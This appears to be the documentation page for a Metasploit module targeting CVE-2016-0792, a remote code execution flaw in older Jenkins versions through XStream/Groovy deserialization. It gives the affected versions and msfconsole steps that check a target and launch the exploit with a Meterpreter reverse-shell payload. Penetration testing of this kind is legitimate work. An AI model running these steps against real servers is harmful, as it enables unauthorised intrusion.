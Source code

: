 Jenkins XStream Groovy classpath Deserialization Vulnerability (CVE-2016-0792)

This module exploits a vulnerability in Jenkins versions older than 1.650 and Jenkins LTS versions older than 1.642.2 which is caused by unsafe deserialization in XStream with Groovy in the classpath, which allows remote arbitrary code execution. The issue affects default installations. Authentication is not required to exploit the vulnerability.

## Vulnerable Application

Jenkins versions < 1.650 and Jenkins LTS versions < 1.642.2

Download Jenkins (Windows) < version 1.650 from here:
http://mirrors.jenkins-ci.org/windows/

Windows Installation: Double click .msi

Download Jenkins LTS (Debian) < version 1.642.2 from here:
https://pkg.jenkins.io/debian-stable/

Download Jenkins (Debian) < version 1.650 from here:
https://pkg.jenkins.io/debian/

Debian Installation: `sudo dpkg --install jenkins_1.642.1_all.deb`

## Options

### TARGETURI

The base path to Jenkins application `/` by default

### VHOST

The HTTP server virtual host. You may need to configure this as well, even though it is set as optional.

### The Check Command

The `jenkins_xstream_deserialize` module comes with a check command that can attempt to check if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the following:

Note: The check only uses `appears to be vulnerable` because it is not possible to differentiate from HTTP headers which Jenkins line (Weekly or LTS) is running.

```
set RHOST [IP]

set TARGETURI [path to Jenkins]
```

```
msf exploit(jenkins_xstream_deserialize) > check

[*] 192.168.1.64:8080 The target appears to be vulnerable..
```

### Exploiting the Host

After identifying the vulnerability on the target machine, you can try to exploit it. Be sure to set TARGETURI to the correct URI for your application, and the TARGET variable for the appropriate host OS.

```
msf exploit(jenkins_xstream_deserialize) > set RHOST 192.168.1.37
RHOST => 192.168.1.37
msf exploit(jenkins_xstream_deserialize) > set target 3
target => 3
msf exploit(jenkins_xstream_deserialize) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(jenkins_xstream_deserialize) > exploit
```
